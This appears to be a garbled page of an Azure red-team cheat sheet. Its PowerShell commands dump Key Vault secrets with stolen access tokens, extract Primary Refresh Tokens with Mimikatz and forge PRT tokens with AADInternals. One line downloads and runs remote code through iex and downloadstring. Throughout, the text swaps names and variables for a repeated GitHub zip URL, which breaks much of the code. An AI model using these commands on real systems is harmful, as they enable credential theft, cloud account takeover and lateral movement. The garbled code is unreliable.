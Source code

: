 
## KeyVault Secrets

```powershell
# keyvault access token
curl "$https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip" -H secret:$IDENTITY_HEADER
curl "$https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip" -H secret:$IDENTITY_HEADER

# connect
PS> $token = 'eyJ0..'
PS> $keyvaulttoken = 'eyJ0..'
PS Az> Connect-AzAccount -AccessToken $token -AccountId 2e91a4fea0f2-46ee-8214-fa2ff6aa9abc -KeyVaultAccessToken $keyvaulttoken

# query the vault and the secrets
PS Az> Get-AzKeyVault
PS Az> Get-AzKeyVaultSecret -VaultName ResearchKeyVault
PS Az> Get-AzKeyVaultSecret -VaultName ResearchKeyVault -Name Reader -AsPlainText
```

## Pass The PRT

> MimiKatz (version 2.2.0 and above) can be used to attack (hybrid) Azure AD joined machines for lateral movement attacks via the Primary Refresh Token (PRT) which is used for Azure AD SSO (single sign-on).

```powershell
# Run mimikatz to obtain the PRT
PS> iex (New-Object https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip).downloadstring("https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip")
PS> Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap"'

# Copy the PRT and KeyValue
Mimikatz> privilege::debug
Mimikatz> token::elevate
Mimikatz> dpapi::cloudapkd /keyvalue:<KeyValue> /unprotect

# Copy the Context, ClearKey and DerivedKey
Mimikatz> dpapi::cloudapkd /context:<Context> /derivedkey:<DerivedKey> /Prt:<PRT>
```

```powershell
# Generate a JWT
PS> Import-Module C:\Tools\AADInternals\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
PS AADInternals> $PRT_OF_USER = '...'
PS AADInternals> while($https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip % 4) {$PRT_OF_USER += "="}
PS AADInternals> $PRT = [https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip]https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip([convert]::FromBase64String($PRT_OF_USER))
PS AADInternals> $ClearKey = "XXYYZZ..."
PS AADInternals> $SKey = [convert]::ToBase64String( [byte[]] ($ClearKey -replace '..', '0x$&,' -split ',' -ne ''))
PS AADInternals> New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SKey –GetNonce
eyJ0eXAiOiJKV1QiL...
```
